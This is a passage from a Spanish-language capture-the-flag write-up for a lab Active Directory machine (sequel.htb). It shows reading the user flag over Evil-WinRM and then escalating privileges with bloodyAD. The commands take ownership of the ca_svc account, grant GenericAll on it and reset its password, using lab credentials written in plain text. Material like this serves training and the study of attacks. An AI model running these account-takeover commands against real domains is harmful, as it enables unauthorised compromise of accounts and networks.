 En el escritorio del usuario podremos encontrar la primera flag.

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> ls -Force


    Directory: C:\Users\ryan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/26/2025   3:02 AM             34 user.txt


*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
7b5db5706610e8d087681e1829******
```

## Escalada de privilegios

Recopilando datos del equipo utilizando SharpHound, podremos ver que ryan tiene ciertos permisos sobre `ca_svc`:

![uh oh](/assets/writeups/escapetwo/1.png)

Al hacernos propietarios del objeto, podemos agregarle luego cualquier permiso como un bonito `FullControl`, y así reiniciarle la contraseña.

Con [bloodyAD](https://github.com/CravateRouge/bloodyAD) podemos hacer las tres cosas de una sola vez.

```bash
❯ bloodyAD --host dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb set owner ca_svc ryan
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
❯ bloodyAD --host dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb add genericAll ca_svc ryan
[+] ryan has now GenericAll on ca_svc
❯ bloodyAD --host dc01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb set password ca_svc 'Password123!'
[+] Password changed successfully!
```
